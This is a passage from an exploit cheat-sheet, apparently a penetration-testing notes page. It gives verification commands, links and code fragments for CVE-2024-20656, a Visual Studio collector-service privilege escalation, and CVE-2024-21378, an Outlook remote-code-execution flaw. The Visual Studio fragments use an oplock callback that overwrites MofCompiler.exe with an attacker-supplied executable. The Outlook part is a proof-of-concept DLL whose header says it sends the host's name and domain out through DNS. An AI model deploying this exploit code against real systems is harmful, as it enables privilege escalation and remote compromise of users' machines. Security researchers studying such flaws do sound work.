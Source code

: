 ```python
else:
    print('(!) Exploit may have failed')
```

## CVE-2024-20656: Visual Studio VSStandardCollectorService150 Service LPE

> https://www.mdsec.co.uk/2024/01/cve-2024-20656-local-privilege-escalation-in-vsstandardcollectorservice150-service/

> https://github.com/Wh04m1001/CVE-2024-20656

### Vulnerability Verification

```cmd
PS C:\> sc qc VSStandardCollectorService150
```

### Potential Changes

```console
WCHAR cmd[] = L"C:\\Program Files (x86)\\Microsoft Visual Studio\\2019\\Community\\Team Tools\\DiagnosticsHub\\Collector\\VSDiagnostics.exe";
```

```console
void cb1()
{
    printf("[*] Oplock!\n");
    while (!Move(hFile2)) {}
    printf("[+] File moved!\n");
    bool result = CopyFile(L"C:\\Windows\\Tasks\\<FILE>.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
    if (result)
    {
        printf("[+] File copied!\n");
    }
    else
    {
        printf("[-] Cannot copy file!\n");
    }
    finished = TRUE;
}
```

## CVE-2024-21378: Microsoft Outlook RCE

> https://twitter.com/ptswarm/status/1778421129193136338

> https://gist.github.com/Homer28/7f3559ff993e2598d0ceefbaece1f97f

```c
/**
 *    This DLL is designed for use in conjunction with the Ruler tool for
 *    security testing related to the CVE-2024-21378 vulnerability, 
 *    specifically targeting MS Outlook.
 * 
 *    It can be used with the following command line syntax:
 *      ruler [auth-params] form add-com [attack-params] --dll ./test.dll
 *    Ruler repository: https://github.com/NetSPI/ruler/tree/com-forms (com-forms branch).
 *
 *    After being loaded into MS Outlook, it sends the PC's hostname and
 *    domain name to a DNS resolver and then terminates its execution.
 *
 *    Unauthorized use of the DLL for malicious activities is strictly
 *    prohibited and may violate applicable laws.
```
